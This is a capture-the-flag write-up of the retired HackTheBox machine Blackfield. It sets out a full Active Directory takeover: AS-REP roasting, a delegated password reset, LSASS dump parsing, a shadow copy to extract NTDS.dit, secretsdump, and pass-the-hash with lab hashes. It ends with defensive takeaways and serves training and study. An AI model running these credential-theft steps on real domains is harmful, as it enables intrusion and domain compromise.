


+++
title = "Blackfield — when backup access becomes domain compromise"
date = "2025-11-08"
date_source = "source-created"
platform = "HackTheBox"
box_status = "retired"
difficulty = "Hard"
tags = ["Windows", "Active Directory", "AS-REP roasting", "Forensics", "Backup privileges"]
summary = "An exposed profile share led to a password-reset relationship, an archived LSASS dump, and a backup account able to recover the domain's credential database."
draft = false
kind = "solve"
publication_approved = true
+++

## Overview

Blackfield demonstrated how operational data can connect several otherwise separate privilege boundaries. Starting with guest SMB access, I recovered an initial account, followed a delegated password-reset permission, and used a forensic memory dump to reach a backup service account. Its privileges on the domain controller ultimately exposed administrator credentials.

```text
Guest SMB → domain usernames → AS-REP roasting → support
          → password reset → audit2020 → archived LSASS dump
          → svc_backup → shadow copy and NTDS.dit → Administrator
```

Commands run from the lab workstation unless a PowerShell block identifies the target session. `$IP` is the assigned Blackfield address.

## Turning share access into a domain foothold

DNS, Kerberos, LDAP, SMB, and WinRM identified a Windows domain environment. Guest access to `profiles$` exposed directory names that could serve as username candidates. RID enumeration provided another way to collect domain users.

```bash
nxc smb $IP -u guest -p '' --shares
nxc smb $IP -u guest -p '' --rid-brute > users.rid
grep -i 'SidTypeUser' users.rid | awk '{print $6}' | cut -d '\' -f2 > userlist.rid
impacket-GetNPUsers -usersfile userlist.rid -dc-ip $IP blackfield.local/
```

The `support` account did not require Kerberos preauthentication. I obtained AS-REP material suitable for offline password cracking. After saving the returned `$krb5asrep$23$...` line to `support.asrep`, I recovered the password and confirmed it with SMB authentication:

```bash
hashcat -m 18200 -a 0 support.asrep /usr/share/wordlists/rockyou.txt
nxc smb $IP -u support -p '#00^BlackKnight'
```

Password reuse checks did not produce another account. BloodHound instead showed a more direct relationship: `support` could force a password change on `audit2020`. Resetting that account's password opened the `forensic` share.

```bash
bloodhound-python --username support --password '#00^BlackKnight' \
  --domain blackfield.local --collectionmethod All --zip -ns $IP

net rpc password 'audit2020' 'P@ssw0rd123' \
  -U 'blackfield.local/support%#00^BlackKnight' -S "$IP"
smbclient "//$IP/forensic" -U audit2020
```

At the SMB password prompt, I entered the newly set password, `P@ssw0rd123`, then downloaded the archive from the share.

## Using an existing forensic artifact

The share contained `lsass.zip`, an archived LSASS process dump. I downloaded and parsed it offline with pypykatz:

```bash
pypykatz lsa minidump lsass.DMP
```

The dump contained candidate credentials for several identities. I tested them rather than treating every extracted value as current. The Administrator and computer-account hashes failed; the `svc_backup` hash authenticated successfully.



*An archived credential must still be validated against the live service.*

`svc_backup` belonged to Remote Management Users, and a WinRM session succeeded. That moved the investigation from network enumeration to local privilege inspection on the domain controller.

```bash
nxc smb $IP -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
evil-winrm -i $IP -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

Inside the resulting PowerShell session, `whoami /priv` exposed the enabled backup privilege.

## From backup privilege to protected files

The account had `SeBackupPrivilege` enabled. In this lab, that access combined with a working Diskshadow workflow allowed protected files to be copied from a shadow copy of the system volume. This was a file-access path, not a direct grant of an administrator shell.

I created a Diskshadow script that took a snapshot of `C:` and exposed it as `Z:`:

```text
set context persistent nowriters
add volume c: alias temp
create
expose %temp% z:
```

I saved this as `C:\Temp\diskshadow.txt` on the target and ran it from the WinRM session:

```powershell
diskshadow.exe /s C:\Temp\diskshadow.txt
```

Microsoft documents Diskshadow's script mode and volume shadow copy management in its [command reference](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow).



Because this host was a domain controller, `NTDS.dit` was the critical database. I copied it and the SYSTEM hive with backup-mode file operations, then processed the copies offline:

```powershell
robocopy /b Z:\Windows\System32\Config C:\Temp SYSTEM
robocopy /b Z:\Windows\NTDS C:\Temp ntds.dit
```

I downloaded the copies using Evil-WinRM's file-transfer commands:

```text
download C:\Temp\SYSTEM
download C:\Temp\ntds.dit
```

Back on the workstation:

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

This recovered a working Administrator hash. Passing that hash to WinRM gave me administrator access and completed the solve. The local SAM database alone would not have represented the domain credential store.

```bash
nxc smb $IP -u Administrator -H 184fb5e5178480be64824d4cd53b99ee
evil-winrm -i $IP -u Administrator -H 184fb5e5178480be64824d4cd53b99ee
```

## Defensive takeaways

- Restrict guest access to shares that expose account names and operational artifacts.
- Require Kerberos preauthentication and use strong, unique account passwords.
- Review delegated password-reset rights as potential paths between identities.
- Protect memory dumps like credentials; forensic collections can retain authentication material long after collection.
- Limit backup rights and interactive access on domain controllers. Audit shadow-copy creation and unexpected copying of directory databases.

## What I learned

I initially looked for a conventional privilege escalation exploit. The successful route used permissions the backup account already possessed. The important question was which sensitive data those permissions made readable, and what authority that data could unlock.
